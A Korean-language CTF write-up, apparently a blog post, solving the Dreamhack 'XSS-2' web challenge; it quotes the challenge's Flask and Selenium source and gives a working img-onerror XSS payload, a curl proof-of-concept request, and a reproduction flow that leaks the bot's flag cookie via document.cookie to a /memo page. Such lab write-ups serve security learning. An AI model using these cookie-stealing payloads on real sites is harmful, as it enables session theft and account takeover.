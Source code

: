 ```yaml
---
title: "[CTF] 드림핵 XSS-2"
date: 2025-09-18 18:10:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS-2"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 이전 XSS-1과 구조는 비슷하지만 `/vuln` 엔드포인트가 이제 **템플릿 렌더링(render_template)** 을 사용한다는 점이 다르다. 직접적으로 `<script>`를 반사해도 바로 실행되지 않기 때문에, 다른 방식(태그 속성 기반 실행)을 생각해야 했다.

- `/vuln` : `render_template("vuln.html")` 로 템플릿을 렌더링
- `/memo` : 전달된 `memo` 값을 누적 저장하고 출력
- `/flag` : POST로 받은 `param`을 내부 셀레니움 봇에게 전달 (봇은 이전과 동일하게 `flag` 쿠키를 가지고 있음)

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법
`/vuln`이 템플릿을 렌더링하니 단순히 `<script>`를 넣어도 실행되지 않는 걸 확인했다. 그래서 `innerHTML` 개념을 생각했고, HTML 태그 속성(onerror 등)을 이용하면 스크립트가 실행될 수 있다는 점에 착안했다.

이미지 태그의 `onerror`를 이용하면 이미지 로드 실패 시 자바스크립트를 실행할 수 있으므로, `param`에 다음과 같은 값을 넘기면 된다.

### 내가 사용한 페이로드
```html
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
```

### PoC 요청
```bash
curl -X POST -F 'param=<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">' http://TARGET:8000/flag
```

설명:
- `/flag`로 POST하면 서버는 내부 `check_xss`를 호출하고, `check_xss`는 `urllib.parse.quote(param)`로 인코딩한 param을 `/vuln` URL에 넣어서 셀레니움 봇을 호출한다.
- 봇은 `flag` 쿠키가 설정된 상태로 `/vuln?param=<payload>` 를 열고, 템플릿 내부에 삽입된 이미지 태그가 로드 실패(`src="XSS-2"`)로 인해 `onerror`가 실행된다.
- `onerror`가 실행되면 `location.href='/memo?memo='+document.cookie` 로 이동하여 `memo`에 FLAG가 저장된다.
- 최종적으로 `/memo` 페이지에서 FLAG 내용을 확인했다.

---

## 재현 흐름
1. 공격자: `POST /flag` with `param=<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">`  
2. 서버: `check_xss` → `read_url` → 셀레니움 실행 → `driver.add_cookie({"name":"flag","value":FLAG})` → `driver.get("/vuln?param=<payload>")`  
3. 봇: `/vuln`에서 이미지 로드 실패 → `onerror` 실행 → `/memo?memo=flag=<FLAG>` 호출  
4. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나
템플릿 렌더링 환경에서도 **태그 속성(onerror 등)은 실행될 수 있음**을 이용해, 이미지 로드 실패를 트리거하여 `document.cookie`(FLAG)를 `/memo`로 전송했다.

---

## 마무리
이번 문제(XSS-2)는 템플릿 렌더링으로 인해 직접 스크립트를 반사해도 실행되지 않을 때, 속성 기반 실행(onerror 등)을 떠올려 우회한 전형적 케이스였다. 간단하게 찾고 바로 해결한 문제라 기록해뒀다.
